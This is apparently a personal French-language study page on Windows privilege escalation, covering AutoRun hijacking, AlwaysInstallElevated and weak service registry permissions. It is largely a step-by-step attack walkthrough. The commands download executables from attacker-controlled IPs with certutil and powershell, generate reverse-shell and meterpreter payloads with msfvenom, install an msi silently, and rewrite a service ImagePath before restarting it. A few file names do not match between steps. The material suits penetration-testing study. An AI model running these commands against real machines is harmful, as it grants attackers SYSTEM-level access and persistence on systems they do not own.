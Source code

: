 This is my learning about windows Privilege Escalation
## Weak Registry Autoruns Escalation
Windows peut être configuré pour exécuter des commandes au démarrage, ce processus est appelé `AutoRun`. Ces exécutions automatiques sont configurées dans le registre. Si vous êtes en mesure d'écrire dans un exécutable AutoRun et de redémarrer le système (ou d'attendre qu'il soit redémarré), vous pouvez être en mesure d'élever vos privilèges.

Pour cela utilisons winpeas pour voir s'il ya des programmes qui ont un droit de autorun
```
certutil.exe -urlcache -f http://10.0.0.5/40564.exe bad.exe
.\winPEASany.exe quiet applicationsinfo
```
trouver un program d'autorun  qui es le program.exe dans `C:\Program Files\Autorun Program\program.exe`

Si nous souhaitons effectuer l'énumération manuellement, il suffit d'utiliser la commande ci-dessous :
```
reg query HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Run
```
Pour vérifier la permission du programme.exe, nous utiliserons accesschk.exe.

```
.\accesschk.exe /accepteula -wvu "Program path"
```
Maintenant pour l'exploiter on doit creer un program avec le meme nom que program.exe avec notre listner
```
msfvenom -p windows/shell_reverse_tcp lhost=10.4.5.83 lport=53 -f exe > shell.exe
```
copy it to program.exe
```
copy /Y shell.exe "C:\Program Files\Autorun Program\program.exe"
```

## AlwaysInstallElevated
 Dans les tests de pénétration, lorsque nous lançons un shell de commande en tant qu'utilisateur local, il est possible d'exploiter les fonctions vulnérables (ou les paramètres de configuration) de la stratégie de groupe de Windows, afin de les élever aux privilèges d'administrateur et d'obtenir l'accès d'administrateur.
 Comme nous le savons tous, le système d'exploitation Windows est doté d'un moteur Windows Installer qui est utilisé par les paquets MSI pour l'installation d'applications. Ces paquets MSI peuvent être installés avec des privilèges élevés pour les utilisateurs non administrateurs.
**Detection**
Pour detecter cela il suffit
```
reg query HKEY_CURRENT_USER\Software\Policies\Microsoft\Windows\Installer
reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer
```
Comme nous pouvons le voir dans la sortie, le registre nommé "AlwaysInstallElevated" existe avec une valeur dword (REG_WORD) de 0x1, ce qui signifie que la stratégie AlwaysInstallElevated est activée.

- Privilege Escalation via .msi payload 
La premiere methode est de creer un payload en `.msi` ensuite l'executer avec `msiexec /quiet /qn /i`
/quiet = Supprime tout message à l'utilisateur pendant l'installation
/qn = Pas d'interface graphique
/i = Installation normale (vs. administrative)
```
msfvenom -p windows/meterpreter/reverse_tcp lhost=192.168.1.120 lport=4567 -f msi > shell.msi

msiexec /quiet /qn /i shell.msi
```




## Weak registry escalation
Microsoft Windows offre un large éventail d'autorisations et de privilèges très précis pour contrôler l'accès aux composants de Windows, notamment les services, les fichiers et les entrées de registre. L'exploitation des permissions faibles du registre est une technique permettant d'augmenter les privilèges.

En détournant les entrées du registre utilisées par les services, les attaquants peuvent exécuter leurs charges utiles malveillantes. Les attaquants peuvent utiliser les faiblesses des autorisations du registre pour détourner l'exécutable initialement prévu vers un exécutable qu'ils contrôlent au démarrage du service, ce qui leur permet d'exécuter leurs logiciels malveillants non autorisés.
**Windows Registry**
Le registre est une base de données définie par le système dans laquelle les applications et les composants du système stockent et récupèrent des données de configuration. Le registre est une base de données hiérarchique qui contient des données essentielles au fonctionnement de Windows et des applications et services qui s'exécutent sur Windows.

Un attaquant peut élever ses privilèges en exploitant une permission faible du Registre si l'utilisateur actuel a la permission de modifier les clés du Registre associées au service.

- Après une première prise de contact, nous pouvons demander les permissions des clés de registre du service à l'aide de l'outil Sysinternals `accesschk.exe`
```
C:\Users\vboxuser\AppData\Local\Temp>accesschk.exe /accepteula "authenticated users" -kvuqsw hklm\System\CurrentControlSet\services
Sysinternals - www.sysinternals.com

 W HKLM\System\CurrentControlSet\services\BTAGService\Parameters\Settings
	KEY_CREATE_SUB_KEY
	KEY_SET_VALUE
	READ_CONTROL
RW HKLM\System\CurrentControlSet\services\embeddedmode\Parameters
	KEY_QUERY_VALUE
	KEY_CREATE_SUB_KEY
	KEY_ENUMERATE_SUB_KEYS
	KEY_NOTIFY
	READ_CONTROL
RW HKLM\System\CurrentControlSet\services\pentest
	KEY_ALL_ACCESS
RW HKLM\System\CurrentControlSet\services\vds\Alignment
	KEY_QUERY_VALUE
	KEY_CREATE_SUB_KEY
	KEY_ENUMERATE_SUB_KEYS
	READ_CONTROL
```
je trouve dans ma detection que le `RW HKLM\System\CurrentControlSet\services\pentest` est `	KEY_ALL_ACCESS` un access complet
je vais faire du `reg query` sur ce registre `HKLM\System\CurrentControlSet\services\pentest` la pour plus d'infos
```
C:\Users\vboxuser\AppData\Local\Temp>reg query hklm\System\CurrentControlSet\services\pentest
reg query hklm\System\CurrentControlSet\services\pentest

HKEY_LOCAL_MACHINE\System\CurrentControlSet\services\pentest
    Type    REG_DWORD    0x10
    Start    REG_DWORD    0x3
    ErrorControl    REG_DWORD    0x1
    ImagePath    REG_EXPAND_SZ    C:\temp\service.exe
    ObjectName    REG_SZ    LocalSystem

HKEY_LOCAL_MACHINE\System\CurrentControlSet\services\pentest\Security

C:\Users\vboxuser\AppData\Local\Temp>

```
Voici le program vulnerable qui est juste le `C:\temp\service.exe`
Pour l'exploiter:
- Create Malicious Executable 
Créer un shell exécutable et l'installer sur la machine de la victime, puis modifier la clé de registre du service en un exécutable puisque l'utilisateur authentifié a un accès complet au service et a donc la possibilité de modifier le chemin d'accès à l'image du service.

```
C:\Users\vboxuser\AppData\Local\Temp>powershell wget http://192.168.56.1/shell2.exe -o s2.exe

reg add "HKLM\system\currentcontrolset\services\pentest" /t REG_EXPAND_SZ /v ImagePath /d "C:\Users\Public\shell.exe" /f
```
Then 
```
net start pentest
```
Lorsque le service démarre ou est redémarré, le programme contrôlé par l'adversaire s'exécute, ce qui permet à ce dernier d'obtenir la persistance et/ou l'escalade des privilèges dans le contexte du compte sous lequel le service est censé s'exécuter (compte local/domaine, SYSTEM, LocalService ou NetworkService).